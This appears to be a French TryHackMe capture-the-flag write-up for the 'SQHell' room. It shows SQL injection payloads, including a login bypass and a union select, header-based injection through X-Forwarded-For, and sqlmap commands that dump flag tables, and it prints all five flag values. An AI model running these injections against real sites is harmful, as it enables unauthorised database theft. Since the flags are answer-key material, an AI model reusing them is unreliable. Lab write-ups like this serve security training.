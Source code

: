 # SQHell #

## Task 1 Find all the Flags! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.136.88 sqhell.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 
```

**Flag 1**

![page](./Task1-01.png)

 Dans la page login on fait un simple injection en mettant : 'or 1=1 -- - dans le champ username et password.  

![page](./Task1-02.png)

Le flag est : THM{FLAG1:E786483E5A53075750F1FA792E823BD2}

**Flag 2**

![page](./Task1-03.png)

On nous que dans les termes et conditions que l'on enregistre l'ip pour des objectifs d'analyse, ceci peut être un point d'entrée d'une injection.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://sqhell.thm/ -D sqhell_1 -T flag --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:11:42 /2021-10-30/

...
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15} |
+----+---------------------------------------------+

...
```

Avec sql map on fait un injection sur la redirection de l'ip et il récupère le flag.  
Le flag est : THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}    

**Flag 3**

![page](./Task1-04.png)   
![page](./Task1-05.png)   

Sur la page d'enregistrement on teste un nom est on intercepte la requête avec Burp.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r register.req --dbms mysql -D sqhell_3 -T flag --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:29:44 /2021-10-30/

[20:29:44] [INFO] parsing HTTP request from 'register.req'
[20:29:45] [INFO] testing connection to the target URL
...
[20:31:03] [INFO] retrieved: 1
[20:31:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                      
THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}
[20:33:50] [INFO] retrieved: 1
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308} |
+----+---------------------------------------------+

[20:33:53] [INFO] table 'sqhell_3.flag' dumped to CSV file '/home/tim/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_3/flag.csv'
[20:33:53] [INFO] fetched data logged to text files under '/home/tim/.local/share/sqlmap/output/sqhell.thm'
...
```

Sqlmap extrait le flag sur l'injection sql faite sur l'utilisateur et extrait le flag.   
Le flag est : THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}   

**Flag 4**

![page](./Task1-06.png)  
![page](./Task1-07.png)  

Ici on injection sql imbriquée.   
Le flag est : THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}   

**Flag5**   

![page](./Task1-08.png) 
![page](./Task1-09.png)  

Ici on récupère un requête sur les posts sur le paramètre id, on récupère la requête avec Burp.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r view.req --dbms mysql -D sqhell_5 -T flag --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:49:46 /2021-10-30/

[20:49:46] [INFO] parsing HTTP request from 'view.req'
[20:49:46] [WARNING] it appears that you have provided tainted parameter values ('id=-1 union select 1,2,user(),4') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly


[*] ending @ 20:49:49 /2021-10-30/

tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r view.req --dbms mysql -D sqhell_5 -T flag --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.10#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:49:51 /2021-10-30/

[20:49:51] [INFO] parsing HTTP request from 'view.req'
[20:49:51] [WARNING] it appears that you have provided tainted parameter values ('id=-1 union select 1,2,user(),4') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] Y
[20:49:52] [INFO] testing connection to the target URL
...
[20:50:29] [INFO] fetching entries for table 'flag' in database 'sqhell_5'
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8} |
+----+---------------------------------------------+
...
```

On sqlmap on trouve le dernier flag qui est : THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8}    

  
